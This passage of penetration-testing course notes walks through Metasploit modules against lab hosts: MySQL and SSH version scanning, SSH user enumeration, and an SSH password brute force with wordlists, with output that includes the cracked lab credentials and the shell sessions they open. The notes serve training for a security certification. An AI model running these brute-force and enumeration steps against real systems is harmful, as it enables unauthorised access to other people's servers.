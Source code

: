 > **`auxiliary/scanner/mysql/mysql_version`**

search type:auxiliary name:mysqluse auxiliary/scanner/mysql/mysql\_versionoptionsrun\[+] 192.64.22.3:3306 - 192.64.22.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)# MySQL and Ubuntu versions enumerated!

> **`auxiliary/scanner/mysql/mysql_writable_dirs`**

* Check the MySQL Enumerated data within MSF:

hostsserviceslootcreds![](https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e00dc1815b532662bee3be7fd6657f8eccd1abd4%2Fimage-20230413133324466.png?alt=media)

**​**[**SSH**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)**​**

> 🔬 [Metasploit - SSH Login](https://attackdefense.com/challengedetails?cid=1526)​

ip -br -c asetg RHOSTS 192.127.196.3setg RHOST 192.127.196.3workspace -a SSH\_ENUM

> **`auxiliary/scanner/ssh/ssh_version`**

search type:auxiliary name:sshuse auxiliary/scanner/ssh/ssh\_versionoptionsrun\[+] 192.127.196.3:22 - SSH server version: SSH-2.0-OpenSSH\_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu\_linux:19.04 service.protocol=ssh fingerprint\_db=ssh.banner )# SSH-2.0-OpenSSH\_7.9p1 and Ubuntu 19.04

> **`auxiliary/scanner/ssh/ssh_login`**

search ssh\_loginuse auxiliary/scanner/ssh/ssh\_login# for password authenticationoptionsset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/common\_passwords.txtrun\[+] 192.127.196.3:22 - Success: 'sysadmin:hailey' ''\[\*] Command shell session 1 opened (192.127.196.2:37093 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'rooty:pineapple' ''\[\*] Command shell session 2 opened (192.127.196.2:44935 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'demo:butterfly1' ''\[\*] Command shell session 3 opened (192.127.196.2:39681 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'auditor:xbox360' ''\[\*] Command shell session 4 opened (192.127.196.2:42273 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'anon:741852963' ''\[\*] Command shell session 5 opened (192.127.196.2:44263 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'administrator:password1' ''\[\*] Command shell session 6 opened (192.127.196.2:39997 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'diag:secret' ''

* This module sets up SSH sessions

![](https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-7e5cd4807505d1993711dd2568be44f6427b7d0d%2Fimage-20230413143027661.png?alt=media)

> **`auxiliary/scanner/ssh/ssh_enumusers`**

search type:auxiliary name:sshuse auxiliary/scanner/ssh/ssh\_enumusersoptionsset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtrun\[+] 192.127.196.3:22 - SSH - User 'sysadmin' found\[+] 192.127.196.3:22 - SSH - User 'rooty' found\[+] 192.127.196.3:22 - SSH - User 'demo' found\[+] 192.127.196.3:22 - SSH - User 'auditor' found\[+] 192.127.196.3:22 - SSH - User 'anon' found\[+] 192.127.196.3:22 - SSH - User 'administrator' found\[+] 192.127.196.3:22 - SSH - User 'diag' found

**​**[**SMTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/smtp-enum)**​**
